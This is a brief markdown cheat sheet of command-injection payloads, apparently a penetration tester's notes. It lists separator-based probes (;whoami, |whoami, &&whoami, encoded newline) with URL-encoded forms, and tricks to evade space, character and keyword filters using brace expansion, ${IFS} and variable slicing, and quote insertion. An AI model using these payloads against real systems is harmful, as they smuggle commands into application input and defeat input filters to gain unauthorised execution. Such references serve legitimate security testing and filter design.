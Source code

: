 # command injection


## payloads

Test command with:

    ;whoami - %3bwhoami
    |whoami - %7cwhoami
    &&whoami - %26%26whoami
    \nwhoami - %0awhoami

### Bypassing space filters

    ;{ls,-la}

### Bypassing character filters

    ${LS_COLORS:10:1} ;
    ${IFS} \t
    ${PATH:0:1} /

### Bypassing blacklister keywords

Try adding single quotes or double quotes to characters

    wh'o'ami
    wh"o"ami


## Resources

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#command-injection